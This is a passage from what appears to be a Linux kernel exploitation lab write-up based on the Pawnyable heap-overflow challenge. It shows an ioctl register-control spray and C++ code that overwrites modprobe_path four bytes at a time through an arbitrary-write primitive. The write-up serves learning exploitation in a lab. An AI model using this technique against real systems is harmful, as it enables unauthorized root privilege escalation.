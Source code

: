 So for us rdx will be `modprobe_path` address and rcx will be string literal `/tmp/xx`. 
Another gotcha about this technique is that it will write 32 bit at a time so we have to do this technique twice. for `/tmp` and `/xx\0`.


#### [Pawnyable Example](https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html)

```cpp
ioctl(spray[i], 0xdeadbeef, 0xcafebabe);

```

Results in

```
RCX: 00000000deadbeef
RDX: 00000000cafebabe
RSI: 00000000deadbeef
R08: 00000000cafebabe
R12: 00000000deadbeef
R14: 00000000cafebabe
```

#### Writing to modprobe_path

```cpp
for (int i = 0; i < sizeof(cmd); i += 4)
{
    for (int j = 0; j < MAX_ATTEMPT; j++)
    {
        if (exp.arb_write(mod_path + i, *(unsigned int *)&cmd[i]) == 0)
        {

            std::ifstream fs("/proc/sys/kernel/modprobe", std::ifstream::in);
            std::string path;
            std::getline(fs, path);
            std::string correct_path{cmd + i};
            // only get substring if it is long enough
            if (correct_path.size() >= 4)
            {
                correct_path = correct_path.substr(i, i + 4);
            }

            // check if current_path size is long enough
            std::string current_path = path.substr(i);
            if (current_path.size() >= 4)
            {
                current_path = path.substr(i, i + 4);
            }

            info(format("checking if correct path == current path: {} == {}", correct_path, current_path).c_str());

            if (correct_path == current_path)
            {
                break;
            }
        }
        info(format("Failed to aaw32 at {}. Attempt: {}/{}", i, j + 1, MAX_ATTEMPT).c_str());
    }
}
```
